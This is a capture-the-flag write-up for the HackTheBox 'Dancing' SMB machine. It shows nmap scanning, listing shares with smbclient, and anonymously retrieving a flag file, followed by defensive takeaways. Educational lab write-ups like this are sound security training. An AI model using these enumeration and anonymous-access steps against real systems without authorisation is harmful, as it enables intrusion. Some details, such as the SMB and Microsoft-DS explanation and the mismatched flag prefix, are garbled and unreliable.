 # HackTheBox - Dancing (SMB CTF)

## Challenge Info

* Platform: HackTheBox
* Challenge Name: Dancing
* Category: Network (SMB)
* Difficulty: Very Easy
* Status: Solved Theoretically (can't spawn machine, already solved)

## Task Description
* We have been given access to a machine which is already vulnerable, The task is to enumerate it(Gather as much detailed information as possible about the target
  system), identify open ports, and exploit them to gain access.

## Thought Process & Methodology
## Enumeration

### Step 1: Nmap Scan

* Firstly we are going to use `nmap` to find which port is open
    `nmap -sC -sV <target-ip>`
  * -sC is just we telling nmap to use your own default script like service detection, banner grabbing etc.
  * -sV is to detect the version of ports
  * `nmap -A <target-ip>` -> -sC + -sV = -A (Agressive Scan)
  * Result:
    ```bash
    PORT   STATE SERVICE 
    135/tcp open  msrpc
    139/tcp open  netbios-ssn
    445/tcp open  microsoft-ds
    5985/tcp open wsman    
  * This shows that SMB protocol (port 445) is open.

### Step 2: Connection

* To connect with the SMB protocol port we use `smbclient -p 445 -L \\<target-ip>`
* `-L` is used for lisiting the available shares
* The result of the above command will show the share on the SMB server at IP 10.129.1.12, but it fails to connect with the error NT_STATUS_RESOURCE_NAME_NOT_FOUND, 4
  which indicates that no workgroup is available.
* Result:
  ```bash
  Sharename       Type     Comment
  Admin$          Disk     Remote Admin
  C$              Disk     Default share
  IPC$            IPC      Remote IPC
  WorkShares      Disk
  
### Exploring The System

* Let’s try accessing workShares using this command:
  ```bash
    smbclient -p 445 \\10.129.1.12\WorkShares
* Using `ls` to list the contents of the directory
* Result:
  ```bash
    smb: \> ls
    .                                D          0   Mon Mar 29 04:22:01 2021
    ..                               D          0   Mon Mar 29 04:22:01 2021
    Amy.J                            D          0   Mon Mar 29 04:22:01 2021
    James.P                          D          0   Mon Mar 29 04:22:01 2021

* Workshare is a share that we can access without a password
* we use `get` to access directories
  `smb: \> get james.P`
* To view contents of the directory `ls` is used
  ```bash
    .                                 D          0   Mon Mar 29 04:22:01 2021
    ..                                D          0   Mon Mar 29 04:22:01 2021
    flag.txt                          D          0   Mon Mar 29 04:22:01 2021
  
* To view it directly from the SMB shell, we can use this command
  `get james.P\flag.txt /dev/stdout`
* Result:
  `THM{c0ngr4ts_y0u_own3d_5MB}`

## What is SMB?
* The SMB (Server Message Block) protocol is a network communication protocol that enables the sharing of files, printers, and other resources on a network, 
  primarily between client and server computers

## What is Microsoft-DS?
* Microsoft-DS (Microsoft Directory Service) is a network file sharing protocol used by Microsoft Windows operating systems for sharing files and printers over a network.
* It operates on port 445 (TCP/UDP) and is a successor to the older SMB (Server Message Block) protocol.

## Why Use "//" in smbclient -p 445 -L \\<target-ip>?
* SMB (Server Message Block) came from DOS and Windows land, not UNIX.
* In DOS/Windows, paths were written like:
  `C:\Users\recognized\Documents`
* And when networking came along, Microsoft needed a way to represent remote network resources. They invented UNC (Universal Naming Convention).
  UNC paths look like this:
  `\\SERVER\Share\Folder\File.txt`
* Here’s the breakdown:
   ```bash
    \\SERVER → the hostname or IP of the server
    \Share → the name of the shared folder
    \Folder\File.txt → the path inside the share

## TakeAway
* Enumeration is key: proper scanning (nmap) reveals the attack surface.
* SMB often exposes sensitive information if misconfigured (like WorkShares with no password).
* Anonymous access = a serious security risk. Always restrict/disable it in real-world environments.
* SMB shares should be monitored and access-controlled to prevent unauthorized file retrieval.
* This challenge reinforced why legacy protocols and weak defaults are dangerous in production systems.

## Note
* This is a practice scenario. Machines on platforms like TryHackMe are intentionally vulnerable
* In real-world situations, gaining root access this easily is highly unlikely.
> If you enumerate properly, the exploit usually reveals itself

## Disclaimer

You may use this Knowledge:

* To learn security concepts
* For testing in controlled environments with explicit permission
* As part of ethical hacking or cybersecurity research

You may not use this Knowledge:

* For unauthorized access to systems
* To harm, disrupt, or compromise any network, server, or individual

By reading this write-up, you agree that any and all responsibility lies with you, the user.


